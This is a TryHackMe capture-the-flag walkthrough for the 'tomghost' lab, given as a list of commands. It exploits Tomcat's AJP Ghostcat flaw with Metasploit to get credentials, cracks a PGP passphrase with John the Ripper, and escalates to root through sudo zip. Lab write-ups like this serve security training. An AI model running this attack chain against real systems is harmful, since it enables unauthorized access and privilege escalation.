 # tomghost

- Compromise this machine and obtain user.txt

	- `sudo nmap -sV -sS <TARGET_IP>`
	- `searchsploit tomcat ghost`
	- `msfconsole`
	- `search tomcat ghost`
	- `use 0`
	- `set RHOST <TARGET_IP>`
	- `set RPORT 8009`
	- `run`
	- You have obtained user:pass.
	- `ssh <REPLACE_USER>@<TARGET_IP>` and enter the password.
	- `cd ..`
	- `ls`
	- `cd merlin`
	- `ls`
	- `cat user.txt`
	- `THM{********************}`

- Escalate privileges and obtain root.txt

	- `gpg --import tryhackme.asc`
	- `gpg --decrypt credential.pgp`
	- We need a passphrase...
	- `gpg2john tryhackme.asc > hash`
	- `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
	- Passphrase: `*********`
	- Decrypt the credential file and enter in the system as merlin user.
	- `sudo -l`
	- Merlin can run `/usr/bin/zip` without password...
	- https://gtfobins.github.io/gtfobins/zip/#sudo
	- Execute those commands and then `cat /root/root.txt`
	- `THM{***********}`


